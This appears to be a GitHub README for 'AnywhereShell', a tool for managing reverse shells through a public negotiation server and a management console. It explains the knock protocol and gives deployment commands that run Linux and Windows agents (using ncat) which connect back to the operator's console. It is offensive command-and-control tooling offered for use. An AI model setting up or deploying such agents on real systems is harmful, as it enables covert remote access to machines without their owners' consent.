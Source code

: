 AnywhereShell
=============

Easily manage your reverse-shells by assigning "knocks" to each.

Protocol
=============
The negotiation server is used to register different "knocks" to agents. These knocks are used to identify individual agents. The agent is the assigned a knock that is registered to the negotiation server. When the management console is ready to connect to the agent it tells the negotiation server to set the knock status for that agent from "wait" to "connect." The agent then connects outbound to the management console.


                    > Negotiation-Server <
                   /                      \
                  /                        \
                agent -------------> management-console


Protocol Language
=============

The negotiation server understands the following commands.

Enumerate active knocks
```
> active <
```

Create a new knock
```
> create: $some_knock <
```

Update the status of an agent to connect
```
> update: $some_knock = connect <
```

Update the status of an agent to wait
```
> update: $some_knock = wait <
```

Retrieve ip and status of a $some_knock
```
> select: $some_knock <
```




Compatibility
=============
AnywhereShell is compatible with Linux and Windows. 

Usage
=============
Start the negotiation server on an external VPS. It must be public facing!

```
python negotiate.py
```
Make sure that there is a knock directory in the same directory as negotiate.py. This is where the knocks get stored.

```
mkdir knocks
```

To install the manager extract manager.jar, .knockrc, and scripts/ to the same directory.

On Linux you will have to enable execute privileges.
```
chmod +x manager.jar
*double-click to run* or java -jar manager.jar
```
On your router port-forward 9002 through to the host that has your management console running. This is neccessary so agents can connect back to you.

In the manager create knock "test."

To deploy the agent on a Linux computer run the following command.
```
python agent.py -i $server_ip -k test
```

To deploy the agent on a Windows computer extract the agent.exe and ncat.exe executables from the windows_agent folder.
```
agent.exe -i $server_ip -k test
```

Simply click connect in the management-console using your knock: "test".

You should have a shell!

Register and deploy as many knocks and agents as you want.
